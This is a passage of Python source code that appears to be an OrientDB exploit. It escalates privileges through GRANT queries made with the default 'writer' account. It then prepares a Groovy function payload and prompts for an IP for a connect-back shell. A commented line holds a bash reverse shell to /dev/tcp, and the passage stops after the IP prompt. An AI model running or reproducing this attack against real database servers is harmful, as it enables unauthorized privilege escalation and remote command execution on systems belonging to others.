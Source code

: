 ```
    url = "http://%s:%s/command/%s/sql/-/20?format=rid,type,version,class,graph"%(target,port,databases[0])

    priv_enable = ["create","read","update","execute","delete"]
    #query = "GRANT create ON database.class.ouser TO writer"

    for priv in priv_enable:

        if permission == "GRANT":
            query = "GRANT %s ON %s TO writer"%(priv,db)
        else:
            query = "REVOKE %s ON %s FROM writer"%(priv,db)
        req = requests.post(url,data=query,auth=('writer','writer'))
        if req.status_code == 200:
            pass
        else:
            if priv == "execute":
                return True
            return False

    print "[+] %s"%(content)
    return True

def priv_escalation(target,port="2480"):

    print "[+] Checking OrientDB Database version is greater than 2.2"

    if check_version(target,port):

        priv1 = run_queries("GRANT","database.class.ouser","Privilege Escalation done checking enabling operations on database.function")
        priv2 = run_queries("GRANT","database.function","Enabled functional operations on database.function")
        priv3 = run_queries("GRANT","database.systemclusters","Enabling access to system clusters")

        if priv1 and priv2 and priv3:
            return True

    return False

def exploit(target,port="2480"):

    #query = '"@class":"ofunction","@version":0,"@rid":"#-1:-1","idempotent":null,"name":"most","language":"groovy","code":"def command = \'bash -i >& /dev/tcp/0.0.0.0/8081 0>&1\';File file = new File(\"hello.sh\");file.delete();file << (\"#!/bin/bash\\n\");file << (command);def proc = \"bash hello.sh\".execute(); ","parameters":null'

    #query = {"@class":"ofunction","@version":0,"@rid":"#-1:-1","idempotent":None,"name":"ost","language":"groovy","code":"def command = 'whoami';File file = new File(\"hello.sh\");file.delete();file << (\"#!/bin/bash\\n\");file << (command);def proc = \"bash hello.sh\".execute(); ","parameters":None}

    func_name = random_function_name()

    print func_name

    databases = enum_databases(target)

    reverse_ip = raw_input('Enter the ip to connect back: ')

```